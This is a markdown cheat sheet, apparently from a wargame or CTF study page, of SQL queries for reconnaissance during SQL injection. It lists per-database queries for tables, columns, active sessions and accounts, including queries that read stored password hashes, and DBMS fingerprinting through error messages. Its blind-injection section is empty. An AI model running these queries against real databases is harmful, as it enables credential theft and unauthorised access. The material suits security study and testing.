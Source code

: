 ```sql
mysql> select TABLE_SCHEMA, TABLE_NAME from information_schema.TABLES;
mssql> SELECT name FROM dreamhack..sysobjects WHERE xtype = 'U';
mssql> SELECT table_name FROM dreamhack.information_schema.tables;
postgres=$ select table_name from information_schema.tables where table_schema='pg_catalog';
postgres=$ select table_name from information_schema.tables where table_schema='information_schema'; -- pg_catalog, information_schema are name of schema.
postgres=$ select table_schema, table_name from information_schema.tables;
```
#### Column info:
```sql
mysql> select TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS;
mssql> SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users');
mssql> SELECT table_name, column_name FROM dreamhack.information_schema.columns;
postgres=$ select table_schema, table_name, column_name from information_schema.columns;
oracle> SELECT column_name FROM all_tab_columns WHERE table_name = 'users'
```
#### Live query info:
```sql
mysql> select * from information_schema.PROCESSLIST;
mysql> select user,current_statement from sys.session;
postgres=$ select usename, query from pg_catalog.pg_stat_activity;
```
#### DBMS account info:
```sql
mysql> select GRANTEE,PRIVILEGE_TYPE,IS_GRANTABLE from information_schema.USER_PRIVILEGES;
mysql> select User, authentication_string from mysql.user;
mssql> SELECT name, password_hash FROM master.sys.sql_logins;
mssql> SELECT * FROM master..syslogins;
postgres=$ select usename, passwd from pg_catalog.pg_shadow;
postgres=$ select name, setting from pg_catalog.pg_settings;
oracle> SELECT * FROM all_users
```
<br />

## DBMS Fingerprinting
#### ___when RESULT of QUERY is showed___ : use environment variable and functions each DBMS support. -> get dbms version
```sql
select @@version
select version()
sqlite> select sqlite_version();
```
#### ___when ERROR MESSAGE being printed___ : about error based sqli...
```sql
select 1 union select 1, 2;
# MySQL => ERROR 1222 (21000): The used SELECT statements have a different number of columns
# PostgreSQL => ERROR:  each UNION query must have the same number of columns \nLINE 1: select 1 union select 1, 2;
# MSSQL => Msg 205, Level 16, State 1, Server e2cb36ec2593, Line 1 \nAll queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.asdf
# SQlite => Error: SELECTs to the left and right of UNION do not have the same number of result columns
(select * from not_exists_table)
# SQLite => Error: no such table: not_exists_table

```
#### ___when can check BOOLEAN OUTPUT of query___ : about blind sqli... : compare byte by byte
```sql
```